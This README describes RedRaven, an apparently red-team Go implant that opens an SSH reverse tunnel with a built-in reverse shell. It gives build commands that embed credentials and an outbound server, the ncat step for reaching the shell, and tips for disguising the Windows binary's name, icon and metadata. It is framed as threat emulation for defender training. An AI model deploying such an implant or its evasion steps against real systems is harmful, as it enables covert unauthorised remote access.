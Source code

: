 ## RedRaven

RedRaven is a golang (recommend v1.15, v1.13 min) cross platform implementation of an ssh reverse tunnel (with a built in reverse shell) similar to:  

    ssh -R 8080:localhost:8080 -i ./privkey.pem user@serverAddr

This opens a tunnel between the two endpoints and allows data to be exchanged this direction:
   
    server:8080 ---> client:8080

Once authenticated a process on the SSH server can interact with the service answering to port 8080 of the client. In this case a built in reverse shell that you can interact with via ncat on the ssh server.  As this is a outbound model vs a bind you don't need to deal with any NAT/firewall rules assuming outbound ssh is allowed.

## Dependices
* [Go](https://golang.org/) 1.13+
* GNU make
* [goversioninfo](https://github.com/josephspurrier/goversioninfo) (needed to add the windows resource infromation to the binary)
* osslsigncode (needed to sign the windows binary) if you don't care about signing you can comment this line out in the Makefile

## How to build
The only thing you should need to modify is the Makefile for the variable "PATH_TO_PEM."  Note becasue the variables are injected at build time via the Makefile.  Second one may need to uncomment the log.Fatal lines in the main.go for troubleshooting, these statements are commented out for threat emulation purpose to excerise the blue IR and RE teams.  Note you may also need to run "make depends" first to generate the generate self signed certificate.

### Example 1 
You plan to use public Key auth, to do this you first need to set the PATH_TO_PEM variable in the Makefile and 
compile the binary with the nessecary paramaters for example:

    make linux64 PEM=true USER=ubuntu SERVER=<FQDN or IPaddr>:<PORT>

### Example 2 
You plan to use password auth, compile the binary with the nessecary paramaters for example:

    make linux64 PEM=false USER=ubuntu SERVER=acme.com:22 PASSWD=123pass

Note that it is possible to have both a PEM and PASSWD set, the PEM=BOOL controls what is used.

## On the SSH Server (gray space)
SSH to the server to interact with the target and type: 

    ncat localhost 8080

note control-c will kill ncat but it will not terminate the process on the client.  Another words the ssh session is still active. On a windows systems you would need to do something like the following:

    tasklist | findstr putty
    taskkill /F /PID <PID #>

## OSPEC
Things to consider for windows:
* ```You are embedding credentials in the binary being deployed, take precautions!```
* The name of the binary
* The icon
* The values in the ./resource/verioninfo.json file especially "OriginalFilename" - this should match the binary name set in the Makefile
* The fact this uses a self signed Certificate 
